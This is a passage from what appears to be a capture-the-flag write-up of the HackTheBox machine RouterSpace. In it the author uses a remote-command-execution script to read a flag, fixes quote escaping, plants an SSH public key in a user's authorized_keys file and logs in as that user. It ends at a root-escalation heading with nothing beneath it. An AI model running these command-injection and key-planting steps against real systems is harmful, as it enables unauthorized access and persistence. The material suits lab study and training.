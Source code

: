     oxdf@hacky$ ./rce.sh 'cat /home/paul/user.txt'
    db87a6d1************************
    

#### .ssh

paul’s homedir does have a `.ssh` directory:

    
    
    oxdf@hacky$ ./rce.sh 'ls -a /home/paul'
    . .. .bash_history .bash_logout .bashrc .cache .gnupg .local .pm2 .profile snap .ssh user.txt
    

It’s empty:

    
    
    oxdf@hacky$ ./rce.sh 'ls -a /home/paul/.ssh'
    . ..
    

I’ll try adding my public key to an `authorized_keys` file:

    
    
    oxdf@hacky$ ./rce.sh 'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /home/paul/.ssh/authorized_keys'
    parse error: Invalid numeric literal at line 1, column 10
    

If I check Burp, the request looks like this, and I can see the `"` are
messing things up:

![image-20220625171627925](https://0xdfimages.gitlab.io/img/image-20220625171627925.png)

Sending again with the `"` escaped solves it:

    
    
    oxdf@hacky$ ./rce.sh 'echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\" >> /home/paul/.ssh/authorized_keys'
    

### SSH

I can connect as paul:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen paul@10.10.11.148
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)
    ...[snip]...
    Last login: Sat Nov 20 18:30:35 2021 from 192.168.150.133
    paul@routerspace:~$ 
    

## Shell as root

### Enumeration

#### Manual
